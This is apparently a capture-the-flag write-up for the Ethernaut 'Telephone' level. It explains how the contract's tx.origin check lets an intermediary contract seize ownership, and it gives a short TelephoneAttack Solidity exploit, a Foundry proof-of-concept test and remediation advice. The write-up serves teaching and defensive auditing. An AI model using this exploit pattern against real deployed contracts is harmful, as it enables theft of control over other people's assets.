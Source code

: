 # Level 4 - Telephone

## Objectives

- claim ownership of the contract

## Contract Overview

The `Telephone` contract is checking if the caller is a smart contract.

A `Telephone` contract has one function `changeOwner` that is publicly visibile and which allows any smart
contract to change the owner of the `Telephone` contract.

The contract is supposed to work as follows:

- Contract validates condition that checks if the `tx.origin` is not equal to `msg.sender`.
- If condition is true, then sets the new owner to the address passed in the function arguments.

```solidity
  function changeOwner(address _owner) public {
    if (tx.origin != msg.sender) {
      owner = _owner;
    }
  }
```

## Finding the weak spots

The `changeOwner` is responsible for the critical action of changing ownership.
However, it is not protected by any security checks (like `onlyOwner` modifier).
It allows anyone to change the owner of the smart contract which is probably not
intended.

The `Telephone` contract relies on the `tx.origin` which is prone to
[phishing attacks](https://github.com/crytic/slither/wiki/Detector-Documentation#dangerous-usage-of-txorigin).
It might also be
[removed in the future](https://ethereum.stackexchange.com/questions/196/how-do-i-make-my-dapp-serenity-proof/200#200),
which may result in compatibility issues.

The contract also does not emit events on
[the critical access control parameters](https://github.com/crytic/slither/wiki/Detector-Documentation#missing-events-access-control),
which makes it difficult to track the ownership changes off-chain.

In `Telephone` contract we have specific `tx.origin` that always refers to the original transaction sender.

Instead of using `tx.origin` we should always use `msg.sender`. The reason for that is `tx.origin` looks for full call chain and the owner can never be a contract while `msg.sender` looks for most recent call.

```solidity
  function changeOwner(address _owner) public {
    if (tx.origin != msg.sender) { // <-- this line over here
      owner = _owner;
    }
  }
```

The function `changeOwner()` has public visibility which means that it can be called by anyone. It has a condition that checks if the `tx.origin` is not equal to `msg.sender`. If this is true, then sets the new owner to the address passed in the function arguments.

So to exploit this we just need to make sure that our `tx.origin` and `msg.sender` do not match when the instance receives the function call to `changeOwner()`.

To bypass this validation we can make use of a malicious intermediary contract (e.g: phishing attack) to call `changeOwner()` and pass the function checks.

## Static analysis (slither)

Here are the logs from the slither:

![alt text](https://github.com/matrix-0wl/ethernaut-solutions-foundry/blob/master/img/Telephone_slither.png)

## Potential attack scenario (hypothesis)

Attacker can create a malicious intermediary contract that makes a call to the `Telephone` contract. This call invokes the `changeOwner()` function with attacker's address as an argument and changes the owner to attacker.

## Plan of the attack

1. Attacker creates the malicious contract with `attack()` function that makes a call to the `Telephone` contract.
2. This call (`attack()` function) invokes the `changeOwner()` function with attacker's address as an argument.
3. The ownership is claimed by attacker.

## Malicious contract (TelephoneAttack.sol)

Malicious contract has an `attack()` function that makes a call to the `Telephone` contract. This call invokes the `changeOwner()` function with attacker's address as an argument and changes the owner to attacker.

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.6.0;

import "./Telephone.sol";

contract TelephoneAttack {
    Telephone victimContract;

    constructor(address _victimContractAddress) public {
        victimContract = Telephone(_victimContractAddress);
    }

    function attack() public {
        victimContract.changeOwner(msg.sender);
    }
}

```

## Proof of Concept

Here is a simplified version of the unit test exploiting the vulnerability ([complete version here](https://github.com/matrix-0wl/ethernaut-solutions-foundry/blob/master/test/04-Telephone.t.sol))

```solidity
        // Attacker creates the malicious contract with `attack()` function that makes a call to the `Telephone` contract
        TelephoneAttack telephoneAttack = new TelephoneAttack(levelAddress);

        emit log_named_address(
            "Owner of contract before attack: ",
            telephoneContract.owner()
        );

        // `attack()` function invokes the `changeOwner()` function with attacker's address as an argument
        emit log_string("Eve calls the attack function...");
        telephoneAttack.attack();

        // The ownership is claimed by attacker
        emit log_named_address(
            "Owner of contract after attack: ",
            telephoneContract.owner()
        );

        // Test assertion
        assertEq(telephoneContract.owner(), attacker);

```

Here are the logs from the exploit contract:

![alt text](https://github.com/matrix-0wl/ethernaut-solutions-foundry/blob/master/img/Telephone.png)

## Recommendations

1. The use of some form of access control is recommended. An example of that
   might be OpenZeppelin Ownable, which provides a basic access control mechanism
   or OZ AccessControl which provides role-based access control.
2. The use of `tx.origin` should be removed from the contract.
3. Emission of events should be added to the critical `changeOwner()` function.
   It will result in better communication with off-chain components and a better
   user experience overall.

## Additional information

You can also read my other solution (using Remix) on my blog: https://matrix-0wl.gitbook.io/ethernaut/4.-telephone-phising-with-tx.origin-used-instead-of-msg.sender

## References

- [Blog Aditya Dixit](https://blog.dixitaditya.com/series/ethernaut)
- [D-Squared YT - Ethernaut CTF Series](https://www.youtube.com/watch?v=_ylKN2R_o-Y&list=PLiAoBT74VLnmRIPZGg4F36fH3BjQ5fLnz)
- [Mastering Ethereum book](https://github.com/ethereumbook/ethereumbook)

## Acknowledgements

The structure of my reports is based on the insights provided by:

- [ChmielewskiKamil](https://github.com/ChmielewskiKamil/ethernaut-foundry)
- [Joran Honig Twitter thread](https://twitter.com/joranhonig/status/1539578735631949825?s=20&t=Kp6iDNXfRKQUBbsb_Yj5SQ)

The recommendations section is based on the insights provided by:

- [ChmielewskiKamil](https://github.com/ChmielewskiKamil/ethernaut-foundry)
